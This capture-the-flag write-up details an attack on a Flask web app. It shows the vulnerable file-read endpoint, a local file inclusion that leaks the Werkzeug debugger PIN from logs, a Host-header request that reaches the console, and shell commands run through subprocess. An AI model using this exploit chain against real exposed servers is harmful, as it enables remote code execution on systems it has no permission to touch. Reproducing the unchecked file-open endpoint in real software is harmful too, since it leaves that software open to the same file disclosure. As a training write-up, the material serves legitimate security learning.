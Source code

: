 ### **Mola7ada Revenge Write-Up**

## discription 

mo7adata was mid i beet you solve this one :) , Revenge baby ;)

## flag 
CTF{machakil_f_ta7mil}

## Write-up 

After obtaining the zip file, I noticed the following line in the Dockerfile:

```dockerfile
CMD flask run --host=0.0.0.0 > /app/logs/logs.txt 2>&1
```

This command redirects the Flask application's output to `/app/logs/logs.txt`. On the host machine, the logs are saved in `./logs/logs.txt`.

During my analysis, I discovered a vulnerability in the following endpoint:

```python
@auth.route('/get_profile_pic')
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

This endpoint is vulnerable to **Local File Inclusion (LFI)**, which allows reading arbitrary files on the server. However, the flag file is randomized using the following command:

```dockerfile
RUN FLAG_NAME=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 12) && mv ./flag.txt "./${FLAG_NAME}_flag.txt"
```

This makes it difficult to guess the flag file's name directly.

---

### **Exploiting the LFI Vulnerability**

After some testing, I found that I could read the application logs using the LFI vulnerability:

```
http://192.168.11.113:5000/get_profile_pic?filename=./logs/logs.txt
```

The output revealed the following:

```
* Serving Flask app 'app.py' 
* Debug mode: on 
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead. 
* Running on all addresses (0.0.0.0) 
* Running on http://127.0.0.1:5000 
* Running on http://192.168.11.113:5000 
Press CTRL+C to quit 
* Restarting with stat 
* Debugger is active! 
* Debugger PIN: 630-138-255
```

The logs show that the Flask debugger is active, and the **Debugger PIN** is exposed. This is a critical finding because the debugger allows arbitrary code execution if accessed.

---

### **Accessing the Werkzeug Console**

I attempted to access the Werkzeug console at:

```
http://192.168.11.113:5000/console
```

However, I received the following error:

```
Bad Request
The browser (or proxy) sent a request that this server could not understand.
```

After two days of research and testing various attack vectors (including SSRF), I discovered that the `/console` endpoint is restricted to `localhost` and `127.0.0.1`. It is not accessible from external IP addresses.

---

### **Bypassing the Restriction**

To bypass this restriction, I modified the `Host` header in my HTTP request. By changing the `Host` from `192.168.11.113:5000` to `127.0.0.1`, I was able to access the Werkzeug console.

Here’s the modified request:

```
GET /console HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: __wzd7996cd05d8d38c9847ad=1737926290|efd2461c3eb9
Connection: keep-alive
```

This allowed me to access the Werkzeug console and execute arbitrary Python code.

---

### **Gaining Remote Code Execution (RCE)**

Using the Werkzeug console, I executed the following commands to enumerate the file system and retrieve the flag:

```python
>>> import subprocess
>>> print(subprocess.run("ls -la", shell=True, text=True, capture_output=True).stdout)
```

The output revealed the contents of the current directory, including the randomized flag file:

```
total 68
drwxr-xr-x 1 root root 4096 Jan 26 21:15 .
dr-xr-xr-x 1 root root 4096 Jan 26 21:15 ..
drwxrwxrwx 7 root root 4096 Jan 24 23:14 .git
drwxrwxrwx 3 root root 4096 Jan 24 23:14 .idea
drwxrwxrwx 5 root root 4096 Jan 24 23:14 .venv
-rw-rw-r-- 1 root root  733 Jan 26 04:04 08WrSq8rM2dL_flag.txt
-rw-rw-rw- 1 root root  346 Aug  9 23:09 Bloog.iml
-rw-rw-rw- 1 root root  787 Jan 26 21:15 Dockerfile
drwxrwxrwx 1 root root 4096 Jan 26 21:15 __pycache__
-rw-rw-rw- 1 root root  128 Jan 26 20:34 app.py
-rwxrwxrwx 1 root root  358 Jan 26 21:05 build.sh
drwxrwxrwx 1 root root 4096 Jan 26 20:20 instance
drwxrwxr-x 2 root root 4096 Jan 26 21:11 logs
drwxrwxrwx 4 root root 4096 Jan 24 23:14 migrations
-rw-rw-rw- 1 root root  101 Jan 25 23:58 requirements.txt
drwxrwxr-x 5 root root 4096 Jan 26 01:56 venv
drwxrwxrwx 1 root root 4096 Jan 24 23:14 website
```

Next, I read the contents of the flag file:

```python
>>> print(subprocess.run("cat 08WrSq8rM2dL_flag.txt", shell=True, text=True, capture_output=True).stdout)
```

The flag file contained the following message:

```
It's 5 AM, and this challenge has made me furious.
I spent all day trying to build a nice Werkzeug pin bypass challenge, 
but I found out that `/console` isn’t accessible from outside of localhost.

I tried so many things—one of them was an SSRF attempt to interact with the console and achieve RCE.

Honestly, this challenge feels mediocre; it could be solved in 5 minutes or even with ChatGPT.
Sorry for wasting your time, but if you’re curious about what I was trying to do, check out these resources :  
- https://werkzeug.palletsprojects.com/en/1.0.x/debug/       
- https://www.daehee.com/werkzeug-console-pin-exploit/    

Here is your flag:
CTF{machakil_f_ta7mil}
```

---

### **Conclusion**

This challenge highlighted the dangers of leaving the Flask debugger enabled in a production environment. By exploiting the LFI vulnerability and bypassing the Werkzeug console's IP restriction, I was able to achieve Remote Code Execution (RCE) and retrieve the flag.

**Note to the Developer: molzri3**  
This is the first time I’ve encountered a way to bypass the Werkzeug console's IP restriction. I plan to report this issue to the Werkzeug maintainers for further investigation. I hope you enjoyed playing this challenge as much as I did!

**Edit**
i repport it and it wasnt a vulnurabilty and this was the answer :
IIRC the Host header check was added to prevent DNS rebinding attacks against a debugger running on localhost, not to restrict access to localhost when the debugger itself is exposed to an untrusted network (which NOBODY SHOULD DO as we very clearly document).

PS: Very cool idea to use an exposed werkzeug debugger as a CTF challenge! :)

---

### **References**

- [Werkzeug Debugger Documentation](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
